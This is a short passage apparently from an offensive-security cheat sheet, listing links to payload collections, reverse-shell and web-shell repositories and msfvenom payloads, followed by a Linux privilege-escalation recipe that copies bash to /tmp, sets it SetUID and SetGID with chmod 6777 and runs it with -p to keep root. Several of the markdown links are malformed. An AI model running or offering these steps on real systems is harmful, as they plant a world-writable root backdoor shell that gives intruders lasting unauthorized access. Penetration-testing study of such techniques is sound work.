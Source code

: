 - [Payload Box]([https://github.com/payloadbox](https://github.com/payloadbox)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [phpgcc](https://github.com/ambionics/phpggc](https://github.com/ambionics/phpggc)
- [PHP-Reverse-Shell](https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)
- [webshell](https://github.com/tennc/webshell](https://github.com/tennc/webshell)
- [Web-Shells](https://github.com/TheBinitGhimire/Web-Shells](https://github.com/TheBinitGhimire/Web-Shells)
- [mfsvenom-payloads](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1)

## Linux

- Copy `bash` and make the copy SetUID and SetGID for root:

```bash
cp /bin/bash /tmp/naclapor; chmod 6777 /tmp/naclapor

ls -l /tmp/naclapor

/tmp/naclapor -p
```